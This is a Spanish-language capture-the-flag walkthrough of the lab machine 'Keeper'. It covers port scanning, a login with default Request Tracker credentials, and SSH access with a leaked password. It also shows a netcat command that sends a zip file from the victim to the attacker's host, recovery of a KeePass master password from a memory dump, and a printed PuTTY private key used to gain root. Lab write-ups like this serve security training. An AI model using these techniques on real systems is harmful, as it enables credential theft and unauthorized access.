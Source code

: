 # Información

+ Nombre: Keeper
+ IP: 10.129.229.41
+ OS: Linux
+ Dificultad: Easy

# Enumeración

### Nmap

```
nmap -p- -sS -Pn -n -vvv --open --min-rate 1000 -oG allports 10.129.229.41
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Escaneo detallado:

```
nmap -p22,80 -sCV -oN targeted 10.129.229.41
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### web

Subdominio `tickets.keeper.htb`

![web.png](Images/web.png)

En `tickets.keeper.htb` se encuentra un login de Request Tracker:

![login.png](Images/login.png)

Pruebo las credenciales predeterminadas para RT:

![default.png](Images/default.png)

User: `root`
Password: `password`

![dashboard.png](Images/dashboard.png)

# Shell como lnorgaard

Entrando en `Users` se observa al usuario `lnorgaard`

![users.png](Images/users.png)

![users2.png](Images/users2.png)

En los comentarios se encuentra una contraseña valida para `ssh`:

![password.png](Images/password.png)

`ssh`:

```
lnorgaard@keeper:~$ whoami
lnorgaard
```

flag `user.txt`:

```
lnorgaard@keeper:~$ cat user.txt
56df134ed***********************
```

# PrivEsc

Se encuentra un archivo zip en el directorio home de lnorgaard:

```
RT30000.zip
```

Lo paso a mi maquina con `netcat`:

Me pongo en escucha:

```
nc -lnvp 443 > dump.zip
```

Maquina victima:

```
nc 10.10.14.67 443 < RT30000.zip
```

Compruebo si los los hashes para verificar que recibí correctamente los datos:

```
lnorgaard@keeper:~$ md5sum RT30000.zip
c29f90dbb88d42ad2d38db2cb81eed21  RT30000.zip
```

```
root@kali /home/cangrejo/Escritorio/keeper/Content # md5sum dump.zip
c29f90dbb88d42ad2d38db2cb81eed21  dump.zip
```

```
unzip dump.zip
```

contiene dos archivos, `KeePassDumpFull.dmp` y `passcodes.kdbx`

```
root@kali /home/cangrejo/Escritorio/keeper/Content # ls -l
total 332812
-rw-r--r-- 1 root root  87391651 jul 16 13:21 dump.zip
-rwxr-x--- 1 root root 253395188 may 24  2023 KeePassDumpFull.dmp
-rwxr-x--- 1 root root      3630 may 24  2023 passcodes.kdbx
```

+ `KeePassDumpFull.dmp` es un volcado de memoria de KeePass.
+ `passcodes.kdbx` es una base de datos KeePass encriptada.

KeePass es un gestor de contraseñas gratuito y de código abierto que permite almacenar de forma segura todas tus contraseñas en una base de datos cifrada.

```
keepassxc passcodes.kdbx
```

La base de datos requiere contraseña:

![kdbx.png](Images/kdbx.png)

Intento Crackear la contraseña con john:

La herramienta `keepass2john` convierte un archivo `.kdbx` a un hash Crackeable compatible con john:

```
keepass2john passcodes.kdbx
```

```                                   
passcodes:$keepass$*2*60000*0*5d7b4747e5a278d572fb0a66fe187ae5d74a0e2f56a2aaaf4c4f2b8ca342597d*5b7ec1cf6889266a388abe398d7990a294bf2a581156f7a7452b4074479bdea7*08500fa5a52622ab89b0addfedd5a05c*411593ef0846fc1bb3db4f9bab515b42e58ade0c25096d15f090b0fe10161125*a4842b416f14723513c5fb704a2f49024a70818e786f07e68e82a6d3d7cdbcdc
```

Lo meto en un archivo llamado hash.

Crack con john:

```
john --wordlist=/usr/share/wordlists/rockyou.txt.gz hash
```

Pero no funciona, la contraseña no parece estar en un diccionario.

Use [este](https://github.com/matro7sh/keepass-dump-masterkey) script de GitHub para extraer la contraseña del archivo `KeePassDumpFull.dmp`:

```
python3 poc.py KeePassDumpFull.dmp
```

```
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

Buscando en google `●,dgr●d med fl●de` se repite `rødgrød med fløde`:

![key.png](Images/key.png)

y la contraseña es valida:

Se puede observar la contraseña para el usuario `root`:

![root.png](Images/root.png)

Pero no puedo usarla:

```
root@10.129.229.41's password: 
Permission denied, please try again.
```

También se observa una clave privada PuTTY: 

```
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0

```

Lo guardo en un archivo llamado key.

Lo convierto a formato OpenSSH:

```
puttygen key -O private-openssh -o id_rsa
```

```
chmod 600 id_rsa
```

```
ssh -i id_rsa root@10.129.229.41
```

```
root@keeper:~# whoami
root
```

flag `root.txt`:

```
root@keeper:~# cat /root/root.txt
a4a8de9*************************
```

# 🦀
